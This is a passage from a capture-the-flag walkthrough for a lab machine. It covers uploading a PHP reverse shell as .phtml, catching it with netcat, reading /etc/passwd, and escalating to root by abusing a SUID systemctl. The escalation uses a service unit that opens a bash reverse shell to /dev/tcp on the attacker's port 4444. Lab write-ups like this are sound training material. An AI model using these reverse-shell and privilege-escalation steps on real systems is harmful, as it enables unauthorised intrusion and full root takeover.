     ii) Edit the file extension to .phtml since the webserver allows uploads with the .phtml extension. 
    
    iii) Listen to incoming connections using: nc -lvnp 1234
  
    iv) Upload your shell and navigate to http://<ip>:3333/internal/uploads/php-reverse-shell.phtml - This will execute your payload
    
You can alternatively use the phpreverse shell provided by kali installations under: /usr/share/webshells/php. Copy the file to your machine directory and edit the copied file adding your IP. 
    
What is the name of the user who manages the webserver? You should have identified a connection in netcat where the webserver is trying to make connection to your machine
    Command: 
    cat /etc/passwd
    
    Answer: bill 
 
What is the user Flag? 
    Command: 
    cd /home/bill , cat user.txt
  
    Answer: 8bd7992fbe*****22a63361004cfcedb
    
## Task five: Privilege Escalation

The goal of this task is to escalate the rights/privileges that we have on the webserver i.e from a simple user to a superuser
    
SUID is a special file permission for executable files which enables other users to run the file with effective permissions of the file owner. Instead of the normal x which represents execute permissions, you will see an s (to indicate SUID) special permission for the user. If a file has been set as SUID by the root, other users can run  commands as root.     
   Command: find / -perm -u=s -type f 2>/dev/null
    
On the system, search for all SUID files. What file stands out?
    Answer: /bin/systemctl

Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?

Become root and get the last flag (/root/root.txt)

Create a system service to run arbitrary commands. 
    Service:: saved as root.service
    
    [Unit] 
    Description=root 
    
    [Service] 
    Type=simple 
    User=root 
    ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<your IP address>/4444 0>&1' 
    
    [Install] 
    WantedBy=multiuser.target

Serve the root.service file to the webserver using a SimpleHTTPServer on port 80 
    
    sudo python -m SimpleHTTPServer 80 (on your machine) 
    